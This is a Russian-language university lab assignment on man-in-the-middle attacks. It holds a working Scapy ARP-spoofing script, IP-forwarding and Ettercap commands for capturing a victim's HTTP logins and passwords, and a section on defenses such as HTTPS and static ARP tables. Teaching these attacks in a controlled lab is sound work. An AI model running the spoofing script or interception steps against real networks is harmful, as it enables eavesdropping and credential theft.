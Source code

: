 ### **Лабораторная работа №18: Изучение атаки "Человек посередине" (Man-in-the-Middle, MITM)**

**Цель работы:**  
Изучить принцип атаки "Человек посередине" (MITM), её методы реализации и способы защиты. Научиться моделировать MITM-атаку в контролируемой среде и анализировать её последствия.

---

### **Теоретическая часть**

#### **Что такое атака "Человек посередине"?**
Атака "Человек посередине" (MITM) — это тип кибератаки, при которой злоумышленник перехватывает и изменяет данные, передаваемые между двумя сторонами, без их ведома. Злоумышленник может:
1. **Перехватывать данные** (например, логины, пароли, сообщения).
2. **Изменять данные** (например, подменять содержимое сообщений).
3. **Внедрять вредоносный код** (например, JavaScript на веб-страницах).

#### **Методы реализации MITM-атаки**
1. **ARP Spoofing**: Подмена ARP-таблиц для перенаправления трафика через устройство злоумышленника.
2. **DNS Spoofing**: Подмена DNS-записей для перенаправления жертвы на поддельный сайт.
3. **SSL Stripping**: Понижение уровня защиты с HTTPS до HTTP для перехвата незашифрованных данных.

#### **Способы защиты**
1. Использование **HTTPS** для шифрования трафика.
2. Проверка **сертификатов** на подлинность.
3. Использование **VPN** для защиты данных.
4. Настройка **статических ARP-таблиц**.

---

### **Практическая часть**

#### **Задание 1: Моделирование MITM-атаки с использованием ARP Spoofing**
1. Установите инструменты для проведения атаки:
   - **Scapy** (для создания ARP-пакетов).
   - **Wireshark** (для анализа трафика).

   Установка:
   ```bash
   pip install scapy
   sudo apt install wireshark
   ```

2. Напишите скрипт для ARP Spoofing:
   ```python
   from scapy.all import ARP, send
   import time

   def arp_spoof(target_ip, spoof_ip):
       # Создание ARP-пакета для подмены ARP-таблицы
       arp_packet = ARP(op=2, pdst=target_ip, hwdst="ff:ff:ff:ff:ff:ff", psrc=spoof_ip)
       while True:
           send(arp_packet, verbose=False)
           print(f"Отправлен ARP-пакет: {target_ip} считает, что {spoof_ip} — это я.")
           time.sleep(2)

   if __name__ == "__main__":
       target_ip = "192.168.1.100"  # IP жертвы
       spoof_ip = "192.168.1.1"     # IP шлюза
       arp_spoof(target_ip, spoof_ip)
   ```

   **Описание кода:**
   - `ARP(op=2)`: Создание ARP-пакета с операцией "ответ" (ARP Reply).
   - `pdst`: IP-адрес жертвы.
   - `hwdst`: MAC-адрес жертвы (в данном случае широковещательный).
   - `psrc`: IP-адрес, который злоумышленник выдает за свой (например, IP шлюза).

3. Запустите скрипт и проверьте ARP-таблицу на устройстве жертвы:
   ```bash
   arp -a
   ```

4. Используйте Wireshark для анализа перехваченного трафика.

#### **Задание 2: Перехват HTTP-трафика**
1. Включите пересылку пакетов на устройстве злоумышленника:
   ```bash
   echo 1 > /proc/sys/net/ipv4/ip_forward
   ```

2. Используйте инструмент **Ettercap** для перехвата HTTP-трафика:
   - Установите Ettercap:
     ```bash
     sudo apt install ettercap-graphical
     ```
   - Запустите Ettercap в графическом режиме:
     ```bash
     sudo ettercap -G
     ```
   - Выберите цель (жертву и шлюз) и запустите атаку.

3. Проанализируйте перехваченные данные (например, логины и пароли).

#### **Задание 3: Защита от MITM-атаки**
1. Используйте **HTTPS** для шифрования трафика.
2. Проверяйте сертификаты на подлинность.
3. Настройте статические ARP-таблицы на устройстве жертвы:
   ```bash
   sudo arp -s 192.168.1.1 00:11:22:33:44:55
   ```

---

### **Вывод**
В ходе выполнения лабораторной работы была изучена атака "Человек посередине" (MITM) и её методы реализации. Были рассмотрены способы защиты от MITM-атак, такие как использование HTTPS, проверка сертификатов и настройка статических ARP-таблиц.

---

### **Соответствие ГОСТ 19**
1. **ГОСТ 19.101-77**: Описание программы на языке программирования.  
   - В работе приведены примеры кода на Python с подробными комментариями.
2. **ГОСТ 19.102-77**: Требования к оформлению программной документации.  
   - Лабораторная работа оформлена в соответствии с требованиями к структуре и содержанию.
3. **ГОСТ 19.103-77**: Описание применения программы.  
   - Приведены примеры использования MITM-атак и способы защиты.

---

### **Пример вывода:**
1. ARP Spoofing успешно выполнен: устройство жертвы считает, что злоумышленник — это шлюз.
2. Перехвачен HTTP-трафик с помощью Ettercap.
3. Настроены меры защиты: использование HTTPS и статических ARP-таблиц.

---